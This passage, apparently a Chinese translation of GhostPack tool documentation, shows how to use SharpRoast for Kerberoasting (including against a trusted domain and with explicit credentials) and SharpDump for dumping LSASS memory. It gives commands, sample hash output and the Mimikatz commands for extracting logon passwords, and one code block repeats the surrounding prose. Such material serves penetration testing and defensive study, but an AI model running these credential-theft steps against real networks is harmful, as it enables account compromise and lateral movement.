 ```bash
C:\Temp\>SharpRoast.exe "MSSQLSvc/SQL@dev.testlab.local"
Hash                   : $krb5tgs$23$*user$DOMAIN$MSSQLSvc/SQL@dev.testlab.local*$9994D148...
```

对另一个\(受信任的\)域中的所有用户执行Kerberoasting攻击:

```bash
C:\Temp>SharpRoast.exe "LDAP://DC=dev,DC=testlab,DC=local"
SamAccountName         : jason
DistinguishedName      : CN=jason,CN=Users,DC=dev,DC=testlab,DC=local
ServicePrincipalName   : test/test
Hash                   : $krb5tgs$23$*$dev.testlab.local$test/test*$9129566

...
```

这些命令中的任何一个都可以接受一个\[domain.com\user\]\[password\] ，以便使用显式凭证进行 Kerberoasting攻击。例如:

```bash
[domain.com\user][password] ，以便使用显式凭证进行 Kerberoasting攻击。例如:
C:\Temp>SharpRoast.exe harmj0y "testlab.local\dfm" "Password123!"
SamAccountName         : harmj0y
DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : asdf/asdfasdf
Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...
```

如果遇到需要使用二次跳板机的情况，这可能很有用。

## **SharpDump**

[SharpDump](https://github.com/GhostPack/SharpDump/) 本质上是各种 [PowerSploit 的 Out-Minidump.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)  的 C\# 版本。[MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API 调用用于为指定的进程 ID \(默认情况下为 LSASS\)创建一个转储到 to C:\Windows\Temp\debug&lt;PID&gt;.out 文件。GZipStream 用于将转储压缩为 C:\Windows\Temp\debug&lt;PID&gt;.bin\(.gz 格式\) ，并删除原始的 minidump 文件。

转储 LSASS \(默认值\)的运行例子:

```text
C:\Temp>SharpDump.exe

[*] Dumping lsass (808) to C:\WINDOWS\Temp\debug808.out
[+] Dump successful!

[*] Compressing C:\WINDOWS\Temp\debug808.out to C:\WINDOWS\Temp\debug808.bin gzip file
[*] Deleting C:\WINDOWS\Temp\debug808.out

[+] Dumping completed. Rename file to "debug808.gz" to decompress.

[*] Operating System : Windows 10 Enterprise N
[*] Architecture     : AMD64
[*] Use "sekurlsa::minidump debug.out" "sekurlsa::logonPasswords full" on the same OS/arch
```
